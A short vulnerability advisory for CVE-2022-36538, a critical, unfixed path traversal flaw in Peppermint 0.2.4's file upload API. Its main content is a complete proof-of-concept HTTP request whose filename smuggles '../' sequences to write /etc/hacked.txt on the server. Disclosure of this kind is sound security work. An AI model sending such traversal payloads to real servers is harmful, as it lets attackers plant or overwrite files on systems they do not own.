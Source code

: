 # Peppermint-Lab - Path Traversal


**CVE-ID:** CVE-2022-36538


**Vendor:** [Peppermint-Lab](https://peppermint.sh)

**Affected Product:** Peppermint

**Affected Versions:** 0.2.4

**Vulnerability:** Path Traversal

**Status:** Unfixed

**Severity:** Critical


## Details

An attacker can upload files to any location on the server.

The following request creates a text file in `/etc/hacked.txt`.


```http
POST /api/v1/users/file/upload HTTP/1.1
Host: localhost:5000
Content-Length: 608
Pragma: no-cache
Cache-Control: no-cache
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarykBOktxIBgtA2RNvF
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.99 Safari/537.36
sec-ch-ua-platform: "Linux"
Accept: */*
Origin: http://localhost:5000
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:5000/?x=hafut9m31%5C%3C%3E%27%22%3A
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: next-auth.callback-url=http%3A%2F%2Flocalhost%3A5000%2F; next-auth.session-token=eyJhbGciOiJkaXIiLCJlbmMiOiJBMjU2R0NNIn0..QRlwsSQIj2KJe5xC.8ESNMapwdVYhvnxjfM6Bs_BKEdYCE1SqLoqYi1em786fDlr5wmyfduI0jvyat-Y8l5I8aBnv1Ghe59d0vyzUL_6WKTB5nMbefxb1UJwha07Fpy4Q0kcHpNrtvJC-h4N4w0Asn4kVpa71-h8ob2uXVPF9gmY7nBDCMpRAEJsIHxK4bHOVc3t1QnZgyQE0RmNWB--NPimJhC6xbzBjO5TkwP3QcdcxSTJe5j5MLp4-XjwgAUSKcRXu00UCewrrWVE1Cz5xOXT32dJ6vCo.rw4PmSKJYAiAwfHjv2yE0w
Connection: close

------WebKitFormBoundarykBOktxIBgtA2RNvF
Content-Disposition: form-data; name="file"; filename="../../../../../../../../etc/hacked.txt"
Content-Type: plain/text

test

------WebKitFormBoundarykBOktxIBgtA2RNvF--
```

